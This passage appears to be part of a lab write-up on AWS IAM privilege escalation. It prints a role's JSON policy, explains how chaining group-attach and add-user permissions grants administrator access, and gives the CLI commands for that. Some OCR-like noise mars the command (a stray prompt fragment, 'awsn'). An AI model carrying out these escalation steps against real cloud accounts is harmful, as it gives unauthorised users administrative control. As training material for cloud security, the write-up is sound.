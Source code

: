 ```json
{
  "Path": "/",
  "RoleName": "Attacher",
  "RoleId": "AROAZNIQILDELXDKYIOZ2",
  "Arn": "arn:aws:iam::646963550408:role/Attacher",
  "CreateDate": "2022-04-25T02:37:44+00:00",
  "AssumeRolePolicyDocument": {
    "Version": "2012-10-17",
    "Statement": [
      {
        "Effect": "Allow",
        "Principal": {
          "AWS": "arn:aws:iam::646963550408:user/student"
        },
        "Action": "sts:AssumeRole"
      }
    ]
  },
  "InstanceProfileList": [],
  "RolePolicyList": [
    {
      "PolicyName": "AttachPolicy",
      "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
          {
            "Action": "iam:AttachGroupPolicy",
            "Effect": "Allow",
            "Resource": "arn:aws:iam::646963550408:group/Printers"
          }
        ]
      }
    }
  ],
  "AttachedManagedPolicies": [],
  "Tags": [],
  "RoleLastUsed": {}
}
```

Therefore, the `Adder` role allows adding users to the group `Printers` and the `Attacher` policy allows attaching policies to the group `Printers`. Therefore, the escalation path is to add the `AdministratorAccess` policy to the `Printers` group and then add the `student` user to that group. This will grant us administrative privileges. Assume the roles and save the credentials output to `assumed_role` after which the commands can be invoked as follows &rarr;

```bash
AWS_ACCESS_KEY_ID=$(cat assumed_role|jq '.Credentials.AccessKeyId'|tr -d "\"") \                                                                               with root@cf9d78fcffc0
AWS_SECRET_ACCESS_KEY=$(cat assumed_role|jq '.Credentials.SecretAccessKey'|tr -d "\"") \
AWS_SESSION_TOKEN=$(cat assumed_role|jq '.Credentials.SessionToken'|tr -d "\"") \
awsn iam add-user-to-group --group-name Printers --user-name student
```
